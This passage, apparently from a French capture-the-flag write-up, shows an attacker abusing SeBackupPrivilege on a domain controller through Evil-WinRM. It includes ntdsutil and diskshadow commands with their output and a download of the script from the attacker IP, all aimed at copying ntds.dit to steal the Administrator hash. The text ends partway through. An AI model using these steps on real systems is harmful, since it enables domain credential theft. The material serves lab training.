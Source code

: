 
	USER CLAIMS INFORMATION
	-----------------------
	
	User claims unknown.
	
	Kerberos support for Dynamic Access Control on this device has been disabled.

### Comment utiliser le privilège SeBackupPrivilege ?

L'utilisateur svc_backup peut réaliser des backups comme l'indique son nom et le privilège SeBackupPrivilege qu'il détient. Ma première idée est de copier ntdis.dit et obtenir le hash du compte Administrator.

Première tentative échouée car je n'ai pas les permissions.

	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q
	C:\Windows\system32\ntdsutil.exe: ac i ntds
	Active instance set to "ntds".
	C:\Windows\system32\ntdsutil.exe: ifm
	ifm: create full c:\temp
	Creating snapshot...
	 error 0x5(Access is denied.)
	IFM media created successfully in c:\temp
	ifm: q
	C:\Windows\system32\ntdsutil.exe: q

Il faut un moyen de lire un snapshot, puis de copier les fichiers de se snapshot. J'utilise diskshadow.exe

Je prépare un fichier shadow.txt

	#File shadow.txt
	set context persistent nowriters
	set metadata c:\exfil\metadata.cab
	add volume c: alias trophy
	create
	expose %someAlias% z:

Puis je le transferts sur la victime.

	Invoke-WebRequest -Uri "http://10.10.14.2/shadow.txt" -OutFile "shadow.txt"

Le dernier caractère de la première ligne de mon fichier shadow.txt ne semble pas être lu. J'ai donc une erreur (nowriter au lieu de nowriterS).

	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> diskshadow.exe /s shadow.txt
	Microsoft DiskShadow version 1.0
	Copyright (C) 2013 Microsoft Corporation
	On computer:  DC01,  6/16/2020 8:54:00 AM
	
	-> set context persistent nowriter
	
	SET CONTEXT { CLIENTACCESSIBLE | PERSISTENT [ NOWRITERS ] | VOLATILE [ NOWRITERS ] }
	
		    CLIENTACCESSIBLE        Specify to create shadow copies usable by client versions of Windows.
		    PERSISTENT              Specify that shadow copy is persist across program exit, reset or reboot.
		    PERSISTENT NOWRITERS    Specify that shadow copy is persistent and all writers are excluded.
		    VOLATILE                Specify that shadow copy will be deleted on exit or reset.
		    VOLATILE NOWRITERS      Specify that shadow copy is volatile and all writers are excluded.
	